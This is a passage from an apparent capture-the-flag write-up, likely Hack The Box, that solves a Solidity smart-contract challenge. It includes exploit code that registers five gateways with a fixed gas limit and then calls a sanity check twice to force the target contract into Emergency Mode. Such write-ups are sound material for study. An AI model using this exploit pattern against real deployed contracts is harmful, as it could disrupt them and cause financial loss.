 
The exploit is essentially just the following:

```solidity
for (uint8 i = 0; i < 5; i++) {
    target.registerGateway{ value: 20 ether, gas: 1_150_500 }();
    console2.log("registered gateway", i);
}
target.infrastructureSanityCheck();
target.infrastructureSanityCheck();
( uint8 status, , , , ) = target.controlUnit();
console2.log("Control Unit status:", status);
```

And upon reading `target.controlUnit()` we will see the status field equal to 3 (Emergency Mode), satisfying the challenge solve requirements.  

See the full exploitation script [here](./htb/script/Exploit.s.sol).
